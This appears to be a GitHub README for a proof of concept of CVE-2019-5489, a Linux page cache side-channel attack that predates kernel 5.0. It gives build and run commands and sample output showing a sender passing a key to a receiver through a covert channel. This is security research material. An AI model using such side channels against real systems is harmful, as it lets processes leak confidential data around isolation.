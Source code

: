# CVE 2019-5489
This repository contains Page Cache Side Channel Attacks (CVE-2019-5489) proof of concept for Linux.

In order to evaluate page cache side channel, I have implemented **covert channel** between two processes.
The sender process send confidential data to a receiver process via the page cache side channel.
Page cache attacks has been mitigated in Linux Kenrel 5.0 and later, so **this PoC will only work before Linux Kernel 5.0**.

NOTE: I've tested works on Ubuntu 18.04, Linux 4.15.0-70.

## Building
Run the following command.
```sh
git clone https://github.com/mmxsrup/CVE-2019-5489
cd CVE-2019-5489
make
```

## Running
Disable swap space to make attack easier.
```sh
swapoff -a
```
### Terminal 1
At first, run the following command on terminal 1.
```sh
make run-sender
```
### Terminal 2
After `sending 1th character ...` is output on the terminal 1, run the following command.
```sh
make run-receiver
```

## Output
If the execution is successful, the following will be output.  
This shows that the key was sent from the Sender process to the Reciver process via page cache side channel.
### Terminal 1
```txt
LD_LIBRARY_PATH=. ./sender
Sender process
ecicting page cache ...
sending 1th character ...
ecicting page cache ...
sending 2th character ...
ecicting page cache ...
sending 3th character ...
ecicting page cache ...
sending 4th character ...
ecicting page cache ...
sending 5th character ...
ecicting page cache ...
sending 6th character ...
ecicting page cache ...
sending 7th character ...
ecicting page cache ...
sending 8th character ...
ecicting page cache ...
sending 9th character ...
```
### Terminal 2
```txt
LD_LIBRARY_PATH=. ./receiver
Sender process
waiting ...
recved caracter(P)
waiting ...
recved caracter(a)
waiting ...
recved caracter(s)
waiting ...
recved caracter(s)
waiting ...
recved caracter(W)
waiting ...
recved caracter(o)
waiting ...
recved caracter(r)
waiting ...
recved caracter(d)
waiting ...
recved caracter()
Received key: PassWord
```

## References
- Daniel Gruss et al. Page cache attacks [CCS 19]
